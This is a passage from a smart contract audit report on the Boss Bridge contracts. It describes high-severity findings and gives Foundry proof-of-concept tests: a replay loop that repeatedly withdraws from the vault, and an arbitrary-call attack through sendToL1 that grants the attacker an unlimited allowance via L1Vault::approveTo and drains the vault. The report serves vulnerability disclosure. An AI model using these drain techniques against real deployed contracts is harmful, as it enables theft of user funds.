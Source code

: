 ```javascript
    while (token.balanceOf(address(vault)) > 0) {
        tokenBridge.withdrawTokensToL1(attacker, attackerInitialBalance, v, r, s);
    }
    assertEq(token.balanceOf(address(attacker)), attackerInitialBalance + vaultInitialBalance);
    assertEq(token.balanceOf(address(vault)), 0);
}
```

Consider redesigning the withdrawal mechanism so that it includes replay protection.

### [H-4] `L1BossBridge::sendToL1` allowing arbitrary calls enables users to call `L1Vault::approveTo` and give themselves infinite allowance of vault funds

The `L1BossBridge` contract includes the `sendToL1` function that, if called with a valid signature by an operator, can execute arbitrary low-level calls to any given target. Because there's no restrictions neither on the target nor the calldata, this call could be used by an attacker to execute sensitive contracts of the bridge. For example, the `L1Vault` contract.

The `L1BossBridge` contract owns the `L1Vault` contract. Therefore, an attacker could submit a call that targets the vault and executes is `approveTo` function, passing an attacker-controlled address to increase its allowance. This would then allow the attacker to completely drain the vault.

It's worth noting that this attack's likelihood depends on the level of sophistication of the off-chain validations implemented by the operators that approve and sign withdrawals. However, we're rating it as a High severity issue because, according to the available documentation, the only validation made by off-chain services is that "the account submitting the withdrawal has first originated a successful deposit in the L1 part of the bridge". As the next PoC shows, such validation is not enough to prevent the attack.

To reproduce, include the following test in the `L1BossBridge.t.sol` file:

```javascript
function testCanCallVaultApproveFromBridgeAndDrainVault() public {
    uint256 vaultInitialBalance = 1000e18;
    deal(address(token), address(vault), vaultInitialBalance);

    // An attacker deposits tokens to L2. We do this under the assumption that the
    // bridge operator needs to see a valid deposit tx to then allow us to request a withdrawal.
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(attacker), address(0), 0);
    tokenBridge.depositTokensToL2(attacker, address(0), 0);

    // Under the assumption that the bridge operator doesn't validate bytes being signed
    bytes memory message = abi.encode(
        address(vault), // target
        0, // value
        abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max)) // data
    );
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

    tokenBridge.sendToL1(v, r, s, message);
    assertEq(token.allowance(address(vault), attacker), type(uint256).max);
    token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));
}
```
